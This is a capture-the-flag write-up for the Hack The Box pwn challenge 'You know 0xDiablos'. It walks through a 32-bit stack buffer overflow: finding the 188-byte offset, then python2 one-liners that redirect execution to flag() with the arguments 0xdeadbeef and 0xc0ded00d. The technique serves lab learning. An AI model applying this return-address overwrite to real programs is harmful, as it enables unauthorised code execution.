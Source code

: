 # You know 0xDiablos ~ HTB ~ Pwn Challenge
I started with basic checks on the ELF file:
- There are not any security techniques enabled. (Cannary, NX, ASLR)
- i386 | 32 bit -> little indian
- function vuln() : 0x08049272
- function flag() : 0x080491e2

By msf-pattern tools and GDB, I found that the return address stored 188 offset bytes on the stack. 

|   STACK FRAME  | |
| ------------ | ------------ |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |  184 bytes |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08'" | (./vuln) (nc [ip] [port])`

By overwrite return address locally we get "Hurry up and try in on server side.", but remotely nothing happens.

So I decided to go through flag function code, and discovered they search for two arguments:
1. 0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
2. 0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d

|   STACK FRAME  | |
| ------------ | ------------ |
| 0xc0ded00d |[argument 2]|
| 0xdeadbeef |[argument 1]|
| padding | 4 bytes |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |  184 bytes |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08' + 'PADD' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | (./vuln) (nc [ip] [port])`


*Written by Eyal Asulin©*
